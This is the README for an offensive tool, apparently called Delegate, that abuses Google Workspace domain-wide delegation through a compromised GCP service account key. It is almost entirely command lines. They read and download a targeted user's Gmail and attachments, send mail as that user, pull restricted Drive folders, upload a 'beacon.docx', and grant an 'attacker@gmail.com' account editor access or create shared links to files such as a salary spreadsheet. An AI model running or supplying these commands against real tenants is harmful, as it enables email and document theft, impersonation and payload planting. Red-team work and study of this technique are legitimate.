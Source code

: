 # Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

<img src="./Images/DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

Download locally folder Restricted_documents using recursive option (-x)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -f Restricted_documents -x
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -t ./beacon.docx
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -f Restricted_documents -t ./beacon.docx
```

Modify permissions on specific file or folder (Add external Gmail account with Editor permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -e attacker@gmail.com
```

Create shared link on specific file or folder for access
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -l
```

<img src="./Images/shared_link_drive.png" alt="sharedlink" width="600"/>